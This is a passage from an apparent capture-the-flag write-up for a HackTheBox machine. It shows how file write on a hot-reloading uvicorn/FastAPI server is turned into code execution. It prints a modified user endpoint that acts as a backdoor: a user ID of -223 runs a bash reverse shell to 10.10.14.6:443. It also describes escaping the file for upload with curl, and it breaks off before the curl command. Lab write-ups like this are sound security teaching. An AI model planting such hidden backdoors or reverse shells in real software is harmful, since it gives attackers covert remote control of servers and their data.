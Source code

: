 
It reports success!

### Shell

#### Strategy

I tried to write to `/home/htb/.ssh/authorized_keys`, but it returns an error.
My best guess is that `.ssh` doesn’t exist.

There’s not much I can do with file write typically, but I did note above that
the webserver is running with a hot reload on. `--reload`, which by
[default](https://www.uvicorn.org/settings/) will:

> periodically look for changes in modification times to all `*.py` files (and
> only `*.py` files) inside of its monitored directories.

So if I can change a Python file, they will all reload.

#### Backdoor Endpoint

I’ll fetch a copy of `user.py`, and edit the `/user/[id]` endpoint:

    
    
    @router.get("/{user_id}", status_code=200, response_model=schemas.User)
    def fetch_user(*,
        user_id: int,
        db: Session = Depends(deps.get_db)
        ) -> Any:
        """
        Fetch a user by ID
        """
        if user_id == -223:
            import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"')
        result = crud.user.get(db=db, id=user_id)
        return result
    

I’ll set it so that a user id of -223 (which should never happen) triggers my
reverse shell.

To send this entire file over `curl`, I’m going to need to do some escaping.
I’ll do that in [CyberChef](https://gchq.github.io/CyberChef) with three “Find
/ Replace” operations:

  * Simple String: `"` => `\\"`
  * Simple String: `'` => `'\\''`
  * Simple String: `\n` => `\\\\n`
  * Extended (\N, \T, \N…): `\n` => `\\n`

For some reason, I have to escape the `\` in Cyberchef. So the outcoming is
that I get one line, with newlines as `\n`, the two actual “\n” string escaped
as `\\n`, and quotes escaped in such a way that I can send it through `curl`
(see [this](https://stackoverflow.com/questions/32122586/curl-escape-single-
quote) for how I got the `'` escape).

I’ll upload that with a monster `curl`:
